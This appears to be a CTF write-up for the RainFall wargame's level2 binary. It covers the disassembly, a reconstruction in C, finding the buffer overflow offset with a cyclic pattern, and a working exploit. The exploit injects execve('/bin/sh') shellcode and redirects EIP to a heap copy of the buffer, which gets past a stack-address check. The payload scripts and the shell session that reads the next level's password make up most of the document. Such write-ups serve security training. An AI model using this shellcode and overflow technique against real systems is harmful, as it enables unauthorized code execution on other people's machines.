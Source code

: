 # Source Code
### in Assembly with help gdb
```
(gdb) disassemble main
Dump of assembler code for function main:
   0x0804853f <+0>:     push   %ebp
   0x08048540 <+1>:     mov    %esp,%ebp
   0x08048542 <+3>:     and    $0xfffffff0,%esp
   0x08048545 <+6>:     call   0x80484d4 <p>
   0x0804854a <+11>:    leave
   0x0804854b <+12>:    ret
End of assembler dump.

(gdb) disassemble p
Dump of assembler code for function p:
   0x080484d4 <+0>:     push   %ebp
   0x080484d5 <+1>:     mov    %esp,%ebp
   0x080484d7 <+3>:     sub    $0x68,%esp
   0x080484da <+6>:     mov    0x8049860,%eax
   0x080484df <+11>:    mov    %eax,(%esp)
   0x080484e2 <+14>:    call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:    lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:    mov    %eax,(%esp)
   0x080484ed <+25>:    call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:    mov    0x4(%ebp),%eax
   0x080484f5 <+33>:    mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:    mov    -0xc(%ebp),%eax
   0x080484fb <+39>:    and    $0xb0000000,%eax
   0x08048500 <+44>:    cmp    $0xb0000000,%eax
   0x08048505 <+49>:    jne    0x8048527 <p+83>
   0x08048507 <+51>:    mov    $0x8048620,%eax
   0x0804850c <+56>:    mov    -0xc(%ebp),%edx
   0x0804850f <+59>:    mov    %edx,0x4(%esp)
   0x08048513 <+63>:    mov    %eax,(%esp)
   0x08048516 <+66>:    call   0x80483a0 <printf@plt>
   0x0804851b <+71>:    movl   $0x1,(%esp)
   0x08048522 <+78>:    call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:    lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:    mov    %eax,(%esp)
   0x0804852d <+89>:    call   0x80483f0 <puts@plt>
   0x08048532 <+94>:    lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:    mov    %eax,(%esp)
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave
   0x0804853e <+106>:   ret
```

### in c

```c
char *p()
{
  char  buffer[64];
  void  *retaddr;

  gets(buffer);
  if ( (retaddr & 0xb0000000) == 0xb0000000 )
  {
    printf("(%p)\n", retaddr);
    exit(1);
  }
  puts(buffer);
  return strdup(buffer);
}


int main()
{
  p();
}
```

# Exploring
like the level before, we have stack buffer overflow due `gets` function that write to a stack allocated variable `buffer[64]`.

Find the offset, use `cyclic,py` on `tools` dir.

generate buffer for input to gets.
```
python3 tools/cyclic.py -g 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```


We gets overriten EIP

```gdb
(gdb) x/wx $ebp+0x4
0xbffff70c:     0x37634136  <- new EIP value
```

Calc Offset.
```
python3 tools/cyclic.py -o 0x37634136
Offset found at: 80 <- the offset
```

The offset is 80.
Now we can override the **EIP** for jumping to ..., to ..., Wait we dont have a function in code that can we use them to gain access to a shell `/bin/sh`.

What about injecting a shellcode in the buffer.


***
**Shellcode**

Shellcode is a small piece of assembly code used in binary exploits to perform tasks like opening a shell or executing commands.
In a typical exploit, an attacker crafts this shellcode to take control of a vulnerable application by inserting it into memory and redirecting the execution flow to it.
To create shellcode, developers write the desired instructions in assembly language and then assemble them into machine code—a sequence of bytes the processor can execute.
Special attention is given to avoiding null bytes or other characters that might terminate the string prematurely, ensuring that the shellcode runs correctly once injected.

***

Example of one that execute `execve("/bin/sh")`.

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80
```
for more shellcodes visit https://shell-storm.org/shellcode/index.html

# Exploit

put the shellcode to buffer and append padding to reach 80, then override **EIP** with buffer variable address.

`buffer` address is `0xbffff6bc`

the payload in python

```python2
shell = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80'

# 0xbffff6bc
buff_addr = '\xbc\xf6\xff\xbf' # due little-endian system

right_padding_len = 10

padding_len = 80 - len(shell) - right_padding_len

buff = '\x90' * right_padding_len + shell + '\x90' * padding_len + buff_addr

print buff,

```

the if condition on the code catch us,

```
level2@RainFall:~$ (python2 payload.py; cat) | ./level2
(0xbffff6bc)
```

because address of buffer start with 0xb........, to bypass this check we'll use heap address `strdup(buffer)`.
the address of buffer on heap is `0x0804a008`, isn't start with 0xb........ .
so, the modified payload is:
```python2
shell = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80'

# 0x0804a008
buff_addr = '\x08\xa0\x04\x08' # due little-endian system

right_padding_len = 10

padding_len = 80 - len(shell) - right_padding_len

buff = '\x90' * right_padding_len + shell + '\x90' * padding_len + buff_addr

print buff,
```

And Here we go,
```
level2@RainFall:~$ (python2 payload.py; cat) | ./level2
1Ph//shh/binPS1Ұ
                ̀
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```


